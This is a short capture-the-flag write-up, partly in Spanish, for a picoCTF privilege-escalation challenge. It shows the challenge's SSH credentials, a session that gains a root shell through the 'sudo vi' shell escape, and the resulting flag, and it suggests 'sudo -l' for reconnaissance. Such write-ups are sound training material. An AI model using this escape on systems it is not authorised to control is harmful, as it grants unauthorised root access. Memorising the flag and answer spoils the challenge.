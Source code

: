 
#### Description
Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 58485 picoplayer@saturn.picoctf.net`Password: `vCR2tuwCRm`Can you login and read the root file?


#### Hints 
1. What permissions do you have?



#### Solución:

1.

````
picoplayer@challenge:/$ sudo vi -c ':!/bin/sh' /dev/null
[sudo] password for picoplayer: 

# whoami
root
# pwd
/
# ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var

# cd challenge
# pwd
/challenge
# ls
metadata.json
# cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_ad091ce1}", "username": "picoplayer", "password": "vCR2tuwCRm"}# Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
`````

2.

````

`````


#### Pico:
picoCTF{uS1ng_v1m_3dit0r_ad091ce1}

#### Notas adicionales:

Este comando nos ayuda a ver en dónde tenemos permisos de ejecución:
sudo -l

Este comando es el que nos permitió acceder como root:
sudo vi -c ':!/bin/sh' /dev/null

#### Referencias:
https://www.youtube.com/watch?v=yLuyf1ZxIwk



